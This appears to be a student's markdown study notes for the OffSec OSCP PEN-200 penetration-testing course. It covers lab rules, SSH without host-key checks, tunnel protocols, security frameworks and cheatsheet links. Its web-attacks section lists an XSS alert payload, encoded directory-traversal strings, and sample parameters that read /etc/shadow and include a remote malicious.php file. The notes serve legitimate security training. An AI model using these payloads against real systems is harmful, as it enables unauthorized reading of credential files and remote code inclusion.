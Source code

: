 # Intro OSCP PEN-200

**The flag must be submitted before reverting or powering off the machine.**
**Exercise Host are x86-64 Kali Linux version exclusively**
**Extecise Host require to use SSH without Hostfile checks**
**Use IP addresses assigned to you via TUN0 and via the OLP**
**Scenario (lab 1-3) machines contain either local.txt file, proof.txt file, or both**
**Challenge (lab 4-6) contains six OSCP machines similar to exam.**
**3 VMs in the AD (40p), 3 scenario VMs with proof.txt or/and local.txt files (60p)**

## Exam

**OSCP exam requires a final report based on Report Writing for Penetration Testers**

## Help

[Offsec Help](https://help.offsec.com/)

[Offsec FAQs](https://help.offsec.com/hc/en-us/categories/360002666252-General-Frequently-Asked-Questions-FAQs)

## SSH Login without Hostfile checks

```bash
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@remote-ip
```

## Active Directory Resources

[AD Getting started](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)

## Web Application Attacks

* Cross-Side-Scripting (XSS) - target client browsers with HTML or scripts `<script>alert('XSS')</script>`
  * [Output Injection to client browsers](https://www.offsec.com/offsec/what-is-xss/)
  * does NOT require Cross-Side
  * does NOT require Scripting
* Directory Traversal - aims to access files and folders out-side of the web root
  *[Access by Manipulation of relative or absolute path](https://owasp.org/www-community/attacks/Path_Traversal)
  * make USE double encoding
    * `%2e%2e%2f` represents `../`
    * `%2e%2e/` represents `../`
    * `..%2f` represents `../`
    * `%2e%2e%5c` represents `..\`
    * `%2e%2e\` represents `..\`
    * `..%5c` represents `..\`
    * `%252e%252e%255c` represents `..\`
    * `..%255c` represents `..\`
  * make USE URL encoding
    * `..%c0%af` represents `../`
    * `..%c1%9c` represents `..\`
  * may LOAD of internal or external resources
    * `...?file=/etc/shadow`
    * `...?file=/var/www/html/get.php`
    * `...?page=http://server.com/malicious.php`

* File Inclusion or Upload - upload the exploit
* Command Injection - run the exploit code
* SQL Injection - read, update the SQL database

## Perimeter Attacks

Find exploits <https://www.exploit-db.com/>

## Tunnels

Common Cyber-Attack tunnel protocols

* SSH Tunnel: (Layer 2 tap, Layer 3 tun)
* SOCKS 4/5
* DNS
* MQTT
* HTTP with/out CONNECT  

e.g.

```plain
CONNECT another-server.com:22 HTTP/1.1
Proxy-Authorization: Basic encoded-credentials
...
HTTP/1.1 200 OK
```

Common tunneling protocols

* IP in IP (Protocol 4): IP in IPv4/IPv6
* SIT/IPv6 (Protocol 41): IPv6 in IPv4/IPv6
* GRE (Protocol 47): Generic Routing Encapsulation
* OpenVPN (UDP port 1194)
* SSTP (TCP port 443): Secure Socket Tunneling Protocol
* IPSec (Protocol 50 and 51): Internet Protocol Security
* L2TP (Protocol 115): Layer 2 Tunneling Protocol
* VXLAN (UDP port 4789): Virtual Extensible Local Area Network.
* GENEVE
* WireGuard

## Security Principle

* David Whelers website <https://dwheeler.com/secure-programs/Secure-Programs-HOWTO/follow-good-principles.html> 
* OWASP cheatsheet <https://cheatsheetseries.owasp.org/cheatsheets/Secure_Product_Design_Cheat_Sheet.html#security-principles>

## Standards and Frameworks

* PCI DSS: The Payment Card Industry Data Security Standard 
* CIS 18: CIS Controls
* NIST Cybersecurity Framework
* Mitre Att&ck and D3fend
* Cyber Kill Chain
* FedRamp: US Federal Risk and Authorization Management Program based on NIST SP 800-53 Revision 4 

## Cheatsheets

* Active Directory `https://swisskyrepo.github.io/InternalAllTheThings`
* Penetration Test `https://swisskyrepo.github.io/InternalAllTheThings`
* Hacktricks.xyz   `https://book.hacktricks.xyz/`



